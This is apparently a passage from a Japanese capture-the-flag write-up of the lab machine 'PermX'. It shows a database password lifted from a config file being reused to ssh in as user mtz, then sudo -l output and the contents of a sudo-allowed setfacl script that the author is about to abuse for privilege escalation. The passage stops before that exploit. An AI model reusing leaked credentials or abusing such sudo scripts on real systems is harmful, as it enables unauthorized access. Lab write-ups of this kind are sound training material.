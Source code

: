 ```bash
    0,  -- 'locked' フィールド：0はロックされていないことを意味します
    1,  -- 'enabled' フィールド：1は有効であることを意味します
    0,  -- 'expired' フィールド：0は期限切れでないことを意味します
    0   -- 'credentials_expired' フィールド：0は資格情報が期限切れでないことを意味します
);

```

しかし、これはうまく動かず、一つの答えは、`$_configuration['db_password'] = '03F6lY3uXAP2bkW8';`で得られたパスワードでsshにmtzとしてログインすることだった、
```bash
└──╼ [★]$ ssh mtz@10.129.254.229
The authenticity of host '10.129.254.229 (10.129.254.229)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.254.229' (ED25519) to the list of known hosts.
mtz@10.129.254.229's password: 

```



---

# Privilege Escalation
いつもの
```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```

何をするshellscriptなんだ？
```bash
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```